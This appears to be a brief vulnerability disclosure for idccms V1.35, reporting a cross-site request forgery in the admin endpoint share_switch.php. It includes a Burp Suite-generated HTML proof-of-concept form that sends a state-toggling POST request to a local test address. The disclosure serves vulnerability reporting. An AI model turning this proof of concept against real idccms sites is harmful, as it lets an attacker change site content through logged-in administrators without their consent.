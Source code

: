 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=newsWeb&fieldName=state&fieldName2=state&tabName=infoWeb&dataID=40

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/share_switch.php?mudi=switch&dataType=newsWeb&fieldName=state&fieldName2=state&tabName=infoWeb&dataID=40" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

